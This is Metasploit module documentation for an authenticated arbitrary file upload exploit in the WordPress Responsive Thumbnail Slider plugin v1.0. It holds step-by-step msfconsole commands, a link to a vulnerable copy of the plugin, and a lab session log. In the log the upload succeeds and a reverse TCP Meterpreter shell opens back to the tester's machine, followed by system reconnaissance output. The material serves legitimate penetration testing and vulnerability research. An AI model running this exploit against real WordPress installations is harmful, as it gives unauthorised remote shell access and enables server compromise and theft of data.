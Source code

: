 
## Vulnerable Application

  This module exploits an arbitrary file upload vulnerability in Responsive Thumbnail Slider Plugin
  v1.0 for WordPress post authentication.

  For testing purposes, you may download a vulnerable version [here](https://www.exploit-db.com/apps/f5d34e16d07e61ad6826d2c1f3d16089-wp-responsive-thumbnail-slider.zip).

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/multi/http/wp_responsive_thumbnail_slider_upload```
  4. Do: ```set RHOSTS [IP]```
  5. Do: ```set TARGETURI [URI]```
  6. Do: ```set USERNAME [USERNAME]```
  7. Do: ```set PASSWORD [PASS]```
  8. Do: ```run```
  9. You should get a shell.

## Scenarios

### Test on Windows 7 x86 running WordPress v4.9.7

  ```
  msf5 > use exploit/multi/http/wp_responsive_thumbnail_slider_upload 
  msf5 exploit(multi/http/wp_responsive_thumbnail_slider_upload) > set rhosts 192.168.37.165
  rhosts => 192.168.37.165
  msf5 exploit(multi/http/wp_responsive_thumbnail_slider_upload) > set targeturi wordpress
  targeturi => wordpress
  msf5 exploit(multi/http/wp_responsive_thumbnail_slider_upload) > set username test
  username => test
  msf5 exploit(multi/http/wp_responsive_thumbnail_slider_upload) > set password password
  password => password
  msf5 exploit(multi/http/wp_responsive_thumbnail_slider_upload) > check
  [*] 192.168.37.165:80 The target service is running, but could not be validated.
  msf5 exploit(multi/http/wp_responsive_thumbnail_slider_upload) > run

  [*] Started reverse TCP handler on 192.168.37.1:4444 
  [*] WordPress accessed
  [+] Logged into WordPress
  [+] Successful upload
  [*] Sending stage (37775 bytes) to 192.168.37.165
  [*] Meterpreter session 1 opened (192.168.37.1:4444 -> 192.168.37.165:54322) at 2018-07-26 14:41:02 -0500

  meterpreter > getuid
  Server username: lab (0)
  meterpreter > sysinfo
  Computer    : WIN7-LAB
  OS          : Windows NT WIN7-LAB 6.1 build 7601 (Windows 7 Ultimate Edition Service Pack 1) i586
  Meterpreter : php/windows
  meterpreter >

  ```
